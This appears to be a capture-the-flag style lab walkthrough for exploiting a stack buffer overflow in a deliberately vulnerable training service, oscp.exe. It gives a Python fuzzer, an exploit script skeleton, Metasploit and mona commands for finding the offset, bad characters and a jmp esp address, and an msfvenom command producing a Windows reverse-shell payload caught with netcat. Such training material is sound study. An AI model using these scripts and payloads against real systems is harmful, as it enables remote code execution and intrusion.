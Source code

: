 ### Mona Configuration

> The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:
````
!mona config -set workingfolder c:\mona\%p
````
### Fuzzing
> Create a file on your Kali box called fuzzer.py with the following contents:
````
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
````

> Run the fuzzer.py script using python: python fuzzer.py

> The fuzzer will send increasingly long strings comprised of As (up to 3000). If the fuzzer crashes the server with one of the strings, you should see an error like: "Could not connect to MACHINE_IP:1337". Make a note of the largest number of bytes that were sent.

#### Crash Replication & Controlling EIP

> Create another file on your Kali box called exploit.py with the following contents:
````
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
````

> Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):
````
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
````

> Copy the output and place it into the payload variable of the exploit.py script.

> On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

> On Kali, run the modified exploit.py script: python exploit.py

> The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

````
!mona findmsp -distance 600
````
> Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

> In this output you should see a line which states:
````
EIP contains normal pattern : ... (offset XXXX)
````
> Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

> Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

#### Finding Bad Characters

> Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
````
!mona bytearray -b "\x00"
````
> Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:
````
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
````
> Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

> Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:
````
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
````
> A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

> Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

> The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

> Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

#### Finding a Jump Point

> With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):
````
!mona jmp -r esp -cpb "\x00"
````
> This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

> Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

#### Generate Payload

> Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):
````
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
````
> Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

#### Prepend NOPs

> Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:
````
padding = "\x90" * 16

````
> Exploit!

> With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

> Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

> Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!
